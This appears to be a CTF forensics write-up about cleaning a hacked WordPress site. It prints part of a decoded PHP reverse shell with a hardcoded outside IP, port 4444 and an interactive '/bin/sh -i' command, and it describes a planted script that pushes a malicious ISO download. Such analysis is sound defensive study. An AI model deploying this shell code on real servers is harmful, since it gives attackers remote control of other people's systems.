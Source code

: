 ```yaml
---
layout: post
title:  "HTB University CTF 2022: Fake News"
date:   2022-12-05 00:00:00
tags: [Wordpress, Binary, PHP, Datetime]
description: 'Analyse how a wordpress page have been hacked.'
categories: [WriteUp, Forensic, HTB-University-CTF-2022]
---
```


## Challenge Information
![Desktop View](/assets/img/fake-news-info.png){: .shadow }
A wordpress website has been compomised. Unluckly there is no backup from
before the hack. The job is to remove all dangerous artifacts and recover the
system to its previous state.


## Investigate the Wordpress source code
We are given a folder named `html` which contains the source code of the hacked
WordPress page. Due to the number of files I searched for the last modified
file using the command `ls -ltA --full-time`.
![ls output](/assets/img/fake-news-ls.png)
I ended up with two folders that had been changed on `2022-11-24`. The next
logical step was to find all files that had been modified within that
timeframe.
```bash
$ find . -type f -newermt "nov 24, 2022" -ls | grep -v png

... Nov 24 17:28 ./wp-blogs/2022/11/style.css
... Nov 24 17:28 ./wp-blogs/2022/11/index.php
... Nov 24 17:22 ./wp-content/plugins/plugin-manager/plugin-manager.php
... Nov 24 17:22 ./wp-content/plugins/plugin-manager/plugin.php
... Nov 24 16:11 ./wp-content/themes/maintheme/style.css
... Nov 24 16:11 ./wp-content/themes/maintheme/footer.php
... Nov 24 16:11 ./wp-content/themes/maintheme/header.php
... Nov 24 16:12 ./wp-content/themes/maintheme/sidebar.php
... Nov 24 16:11 ./wp-content/themes/maintheme/index.php
... Nov 24 16:10 ./.htaccess
... Nov 24 16:09 ./wp-config.php
```
By looking carefully through the files, I found two weird looking files:
- `eval` command inside the file `plugin-manager.php`
- obfuscated JavaScript code in the file `index.php` which is stored in the folder `wp-blogs`


## Reverse shell
The eval command seemed base64 encoded, so I decoded it. The decoded PHP script
looks like a typical reverse shell which contains the first part of the flag.
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '77.74.198.52';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$part1 = "HTB{C0m3_0n";
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
...
```


## Internal Phishing Website
The easiest way to reveal JavaScript code is to run it. I opened up the
malicious `index.php` file inside a virtual machine. At first the page only shows
a train ticket, but after a short time, the browser starts downloading the file
`official_invitation.iso`.

![train ticket](/assets/img/fake-news-ticket.png)

Because I didn't want to mount the file, one of my teammates suggested I unpack
it. It appears that `.iso` files are nothing more than archives. A file called
`official_invitation.exe` was created. Using the following command, I found the
second part of the flag.
```bash
strings official_invitation.exe | tail -100 | head -20
```
